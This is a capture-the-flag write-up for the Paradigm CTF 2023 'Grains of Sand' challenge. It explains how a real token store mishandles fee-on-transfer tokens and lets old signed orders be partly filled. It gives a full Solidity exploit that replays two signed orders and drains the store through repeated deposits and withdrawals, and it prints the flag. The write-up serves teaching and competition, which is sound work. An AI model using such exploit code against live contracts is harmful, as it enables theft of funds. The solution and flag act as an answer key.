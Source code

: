 ```yaml
---
title: Blockchain - Grains of Sand
description: 2023 | Paradigm CTF | PWN
tags:
    - smart contract
    - fee on transfer
    - signature replay
    - dune
---
```


## Description

At what point does it stop being a heap?

??? note "Deploy.s.sol"

    ```js
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.0;

    import "forge-ctf/CTFDeployment.sol";
    import "../src/Challenge.sol";

    contract Deploy is CTFDeployment {
        function deploy(address system, address) internal override returns (address challenge) {
            vm.startBroadcast(system);

            challenge = address(new Challenge());

            vm.stopBroadcast();
        }
    }
    ```

??? note "src/Challenge.sol"

    ```js
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.0;

    import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

    contract Challenge {
        IERC20 private immutable TOKEN = IERC20(0xC937f5027D47250Fa2Df8CbF21F6F88E98817845);

        address private immutable TOKENSTORE = 0x1cE7AE555139c5EF5A57CC8d814a867ee6Ee33D8;

        uint256 private immutable INITIAL_BALANCE;

        constructor() {
            INITIAL_BALANCE = TOKEN.balanceOf(TOKENSTORE);
        }

        function isSolved() external view returns (bool) {
            return INITIAL_BALANCE - TOKEN.balanceOf(TOKENSTORE) >= 11111e8;
        }
    }
    ```

## Solution

- The private chain is forked from the Ethereum mainnet block with block number $18437825$. And to solve the challenge, the token balance of the token store needs to be decreased by at least $11111 \times 10^8$ 

    ```js
    // challenge.py
    def get_anvil_instances(self) -> Dict[str, LaunchAnvilInstanceArgs]:
        return {
            "main": self.get_anvil_instance(fork_block_num=18_437_825),
        }
    ```

- The token GoldReserve (XGR) charges a fee when transferring, but the token store does not support fee-on-transfer tokens. So we can repeatedly deposit and withdraw to drain tokens from the store

    ```js
    function depositToken(address _token, uint _amount) deprecable {
        ...
        if (!Token(_token).transferFrom(msg.sender, this, _amount)) {
            revert();
        }
        tokens[_token][msg.sender] = safeAdd(tokens[_token][msg.sender], _amount);  // @note The amount received could be less than _amount
        Deposit(_token, msg.sender, _amount, tokens[_token][msg.sender]);
    }

    function withdrawToken(address _token, uint _amount) {
        ...
        tokens[_token][msg.sender] = safeSub(tokens[_token][msg.sender], _amount);
        if (!Token(_token).transfer(msg.sender, _amount)) {
            revert();
        }
        Withdraw(_token, msg.sender, _amount, tokens[_token][msg.sender]);
    }
    ```

- Now we need to get some GoldReserve tokens first! Through the `trade()` function, we can exchange for $XGR with signatures

    ```js
    function trade(address _tokenGet, uint _amountGet, address _tokenGive, uint _amountGive,
        uint _expires, uint _nonce, address _user, uint8 _v, bytes32 _r, bytes32 _s, uint _amount) {
        bytes32 hash = sha256(this, _tokenGet, _amountGet, _tokenGive, _amountGive, _expires, _nonce);
        // Check order signatures and expiration, also check if not fulfilled yet
        if (ecrecover(sha3("\x19Ethereum Signed Message:\n32", hash), _v, _r, _s) != _user ||
            block.number > _expires ||
            safeAdd(orderFills[_user][hash], _amount) > _amountGet) {
            revert();
        }
        tradeBalances(_tokenGet, _amountGet, _tokenGive, _amountGive, _user, msg.sender, _amount);
        orderFills[_user][hash] = safeAdd(orderFills[_user][hash], _amount);
        Trade(_tokenGet, _amount, _tokenGive, _amountGive * _amount / _amountGet, _user, msg.sender, _nonce);
    }

    function tradeBalances(address _tokenGet, uint _amountGet, address _tokenGive, uint _amountGive,
        address _user, address _caller, uint _amount) private {
        ...
        tokens[_tokenGet][_user] = safeAdd(tokens[_tokenGet][_user], safeAdd(_amount, rebateValue));
        tokens[_tokenGet][_caller] = safeSub(tokens[_tokenGet][_caller], safeAdd(_amount, feeTakeValue));
        tokens[_tokenGive][_user] = safeSub(tokens[_tokenGive][_user], tokenGiveValue);
        tokens[_tokenGive][_caller] = safeAdd(tokens[_tokenGive][_caller], tokenGiveValue);
        tokens[_tokenGet][feeAccount] = safeAdd(tokens[_tokenGet][feeAccount], safeSub(feeTakeValue, rebateValue));
        ...
    }
    ```

- Trading orders can be partially filled. By using [Dune](https://dune.com/queries/3239317), we can find unexpired orders for GoldReserve tokens. Luckily, there are two orders with large amounts of unsold tokens XD

    tx_hash | _amount | _amountGet
    -|-|-
    0x1483f5c6158dfb9a899b137ccfa988fb2b1f6927854dcd83e0a29caadd0e38ba | 4200000000000000 | 84000000000000000
    0x6d727f761c7744bebf4a8773f5a06cd7af280dcda0b55c0995aea47d5570f1a1 | 4246800000000000 | 42468000000000000

### Exploit

```js
interface ITokenStore {
    function tokens(address _token, address _user) external view returns (uint256);
    function deposit() external payable;
    function depositToken(address _token, uint _amount) external;
    function withdrawToken(address _token, uint _amount) external;
    function trade(
        address _tokenGet,
        uint _amountGet,
        address _tokenGive,
        uint _amountGive,
        uint _expires,
        uint _nonce,
        address _user,
        uint8 _v,
        bytes32 _r,
        bytes32 _s,
        uint _amount
    ) external;
    function availableVolume(
        address _tokenGet,
        uint _amountGet,
        address _tokenGive,
        uint _amountGive,
        uint _expires,
        uint _nonce,
        address _user,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) external view returns (uint256);
}

contract Solve is CTFSolver {
    ITokenStore tokenStore = ITokenStore(0x1cE7AE555139c5EF5A57CC8d814a867ee6Ee33D8);

    function doTrade(
        address _tokenGet,
        uint _amountGet,
        address _tokenGive,
        uint _amountGive,
        uint _expires,
        uint _nonce,
        address _user,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) internal {
        uint256 amount = tokenStore.availableVolume(_tokenGet, _amountGet, _tokenGive, _amountGive, _expires, _nonce, _user, _v, _r, _s);
        tokenStore.trade(_tokenGet, _amountGet, _tokenGive, _amountGive, _expires, _nonce, _user, _v, _r, _s, amount);
    }

    function solve(address _challenge, address player) internal override {
        Challenge challenge = Challenge(_challenge);
        address token = 0xC937f5027D47250Fa2Df8CbF21F6F88E98817845;
        tokenStore.deposit{value: 10 ether}();  // to buy $XGR
        doTrade(
            address(0),
            84000000000000000,
            token,
            200000000000,
            108142282,
            470903382,
            address(0xa219Fb3CfAE449F6b5157c1200652cc13e9c9EA8),
            28,
            0xf164a3e185694dadeb11a9e9e7371929675d2eb2a6e9daa4508e96bc81741018,
            0x314f3b6d5ce7c3f396604e87373fe4fe0a10bef597287d840b942e57595cb29a
        );
        doTrade(
            address(0),
            42468000000000000,
            token,
            1000000000000,
            109997981,
            249363390,
            address(0x6FFacaa9A9c6f8e7CD7D1C6830f9bc2a146cF10C),
            28,
            0x2b80ada8a8d94ed393723df8d1b802e1f05e623830cf117e326b30b1780ae397,
            0x65397616af0ec4d25f828b25497c697c58b3dcc852259eaf7c72ff487ce76e1e
        );

        IERC20(token).approve(address(tokenStore), type(uint256).max);
        tokenStore.withdrawToken(token, tokenStore.tokens(token, player));
        while(!challenge.isSolved()) {
            tokenStore.depositToken(token, IERC20(token).balanceOf(player));
            tokenStore.withdrawToken(token, tokenStore.tokens(token, player));
        }
    }
}
```

### Flag

> PCTF{f33_70K3nS_cauS1n9_pR08L3Ms_a9a1N}